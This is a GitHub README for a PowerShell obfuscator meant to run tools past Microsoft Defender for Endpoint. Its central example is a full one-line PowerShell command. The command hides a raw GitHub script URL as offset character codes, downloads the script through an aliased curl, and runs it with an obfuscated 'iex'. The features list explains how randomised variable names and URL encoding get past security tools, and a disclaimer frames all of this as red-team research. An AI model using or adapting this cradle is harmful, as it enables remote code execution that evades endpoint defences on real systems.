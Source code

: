 # ps1-obfuscator

![image](https://github.com/user-attachments/assets/39e165b8-0030-4add-a6e0-902afb6f49ee)

A `ps1` obfuscator designed to help run fkmde or other tools for use in environments with Microsoft Defender for Endpoint (MDE).

```
powershell -Command "new-alias ravnl curl; $bcutn = @(8891,8903,8903,8899,8902,8845,8834,8834,8901,8884,8906,8833,8890,8892,8903,8891,8904,8885,8904,8902,8888,8901,8886,8898,8897,8903,8888,8897,8903,8833,8886,8898,8896,8834,8889,8894,8907,8887,8901,8834,8889,8894,8896,8887,8888,8834,8896,8884,8892,8897,8834,8889,8894,8896,8887,8888,8833,8899,8902,8836); $qsnln = ''; foreach ($asciiValue in $bcutn) { $decodedChar=[char]($asciiValue-8787); $qsnln+=$decodedChar; }; .([char](9992-9887)+'e'+'x')(ravnl -useb $qsnln)" 
```

## Features
- **URL Obfuscation**: Transforms URL into a series of ASCII values, making them less recognizable to security tools.
- **Random Variable Generation**: Creates random variable names to further obscure the script and reduce the chance of detection.
- **CMD Compatibility**: The generated obfuscated script can be executed in the Windows Command Prompt, allowing for seamless integration into various workflows.

![image](https://github.com/user-attachments/assets/56a56fe1-c374-4938-a1cb-ab261569151f)

  
## Disclaimer
This tool is intended for educational and security research purposes only. The author is not responsible for misuse or for any damage that may occur from using this tool. It is the end user's responsibility to comply with all applicable laws and regulations. The use of this tool against targets without prior mutual consent is illegal.

## Credits
- This obfuscation technique was observed in a live Security Operations Center (SOC) incident and adapted for red-teaming purposes.
